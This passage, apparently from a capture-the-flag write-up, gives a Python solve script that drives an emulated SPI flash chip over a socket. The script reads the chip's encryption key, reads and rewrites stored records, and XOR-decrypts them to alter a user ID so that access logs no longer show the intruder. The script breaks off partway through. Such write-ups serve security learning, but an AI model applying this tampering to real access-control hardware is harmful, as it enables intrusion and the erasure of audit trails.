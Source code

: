 ## #Getaway Solution - cover our tracks

Now let's put this together and wrap this up.

The header part of the script alongside with the `exchange` function is "untouched way" from the given `client.py` script.

```python
import socket
import json
import struct
import binascii

# Constants provided in the example client script
FLAG_ADDRESS = [0x52, 0x52, 0x52]
RECORDS_SIZE = 2560
host = '94.237.54.170'  # Adjust as necessary
port = 38882          # Adjust as necessary
cs = 0
usb_device_url = 'ftdi://ftdi:2232h/1'

def exchange(hex_list, value=0):
    command_data = {
        "tool": "pyftdi",
        "cs_pin": cs,
        "url": usb_device_url,
        "data_out": [hex(x) for x in hex_list],
        "readlen": value
    }
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        s.connect((host, port))
        s.sendall(json.dumps(command_data).encode('utf-8'))
        data = b''
        while True:
            data += s.recv(1024)
            if data.endswith(b']'):
                break
    return json.loads(data.decode('utf-8'))

def get_encryption_key():
    key_response = exchange([0x48, 0, 16, 0x52, 0, 0], 12)
    print(f"Encryption Key: {key_response}")
    return bytearray(key_response)

def read_data(length, addr):
    cmd = [0x03, (addr >> 16) & 0xff, (addr >> 8) & 0xff, addr & 0xff]
    return bytearray(exchange(cmd, length))

def write_data(data, addr):
    exchange([0x06])  # Enable writing
    cmd = [0x02, (addr >> 16) & 0xff, (addr >> 8) & 0xff, addr & 0xff] + list(data)
    exchange(cmd, len(data))
    while True:
        status = exchange([0x05], 1)[0]
        if status & 1 == 0:
            break

def modify_records(data, key):
    found_user_id = False
    for i in range(0, len(data), 16):    # 16 bytes each record
        record = data[i:i+12] # Extract record excluding CRC (4 bytes is CRC)
        decrypted_record = bytearray(b ^ key[j % len(key)] for j, b in enumerate(record))
        user_id = struct.unpack("<H", decrypted_record[6:8])[0]
        # Check and modify User ID 0x5244
```